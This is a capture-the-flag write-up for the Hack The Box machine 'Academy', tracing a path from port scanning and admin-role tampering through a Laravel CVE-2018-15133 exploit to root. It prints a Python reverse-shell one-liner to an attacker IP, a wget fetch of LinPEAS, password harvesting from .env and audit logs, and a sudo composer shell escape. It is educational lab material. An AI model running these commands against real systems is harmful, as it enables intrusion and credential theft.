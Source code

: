 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/whoami.PNG)

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

There are several users on the system
```
www-data@academy$ ls /home/
ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
```
Login attempt with the cry0l1t3 user using found password was successed and we got the user.txt flag  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/user%20flag.PNG)

User2
---------
Cry0l1t3 is in the adm group in the system so he can read files in /var/log  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/adm%20group.PNG)

Let's use [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find some privilege escalation vector
We need to start http-sever on Kali using following command
````
Python -m SimpleHTTPServer
````
And then we can download the script to the victim system using wget
````
wget http://10.10.14.8:8000/linpeas.sh
````

LinPEAS found mrb3n's password in /var/log/audit log file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n%20pass.jpg)

So now we can login as mrb3n  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n.PNG)  

Geting root
--------
Using 'sudo -l' command showed us that mrb3n can run '/composer' as super user

![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/sudo%20l.PNG)  

After some googling i found [GTFOBins ./composer page](https://gtfobins.github.io/gtfobins/composer/) and found out that if we can run /composer as super user we can then use following commands to get root privileges:

````
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
````
And now we are root  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/root.PNG)

